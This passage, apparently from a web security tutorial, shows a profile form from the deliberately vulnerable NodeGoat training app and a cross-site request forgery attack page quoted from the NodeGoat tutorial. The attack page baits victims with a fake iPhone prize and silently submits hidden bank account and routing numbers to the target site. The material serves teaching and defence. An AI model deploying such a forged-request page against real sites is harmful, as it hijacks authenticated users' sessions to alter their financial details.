              placeholder="Enter SSN">
       </div>
       <div class="form-group">
          <label for="dob">Date of Birth</label>
          <input
             type="date"
             id="dob"
             name="dob"
             value="{{dob}}"
             placeholder="Enter date of birth">
       </div>
       <div class="form-group">
          <label for="bankAcc">Bank Account #</label>
          <input
             type="text"
             id="bankAcc"
             name="bankAcc"
             value="{{bankAcc}}"
             placeholder="Enter bank account number">
       </div>
       <div class="form-group">
          <label for="bankRouting">Bank Routing #</label>
          <input
             type="text"
             id="bankRouting"
             name="bankRouting"
             value="{{bankRouting}}"
             placeholder="Enter bank routing number">
          <p class="help-block">
             Must be entered as digits with a suffix of #. For example: 0198212# </p>
       </div>
       <div class="form-group">
          <label for="address">Address</label>
          <input
             type="text"
             id="address"
             name="address"
             value="{{address}}"
             placeholder="Enter address">
       </div>
       <input type="hidden" name="_csrf" value="{{csrftoken}}" />
       <button type="submit" class="btn btn-default" name="submit">Submit</button>
    </form>

The below attack code can be found at the NodeGoat [tutorial for CSRF](https://nodegoat.herokuapp.com/tutorial/a8), along with the complete example that ckarande crafted, and an accompanying tutorial video of how the attack plays out:

{title="snippet from attackers website", linenos=off, lang=html, linenos=on}
    <html lang="en">
    <head></head>
       <body>
          <form method="POST" action="http://TARGET_APP_URL_HERE/profile">
             <h1> You are about to win a brand new iPhone!</h1>
             <h2> Click on the win button to claim it...</h2>
             <!--User is authenticated, let's force them to change some values-->
             <input type="hidden" name="bankAcc" value="9999999"/>
             <input type="hidden" name="bankRouting" value="88888888"/>
                                <input type="submit" value="Win !!!"/>
          </form>
       </body>
    </html>
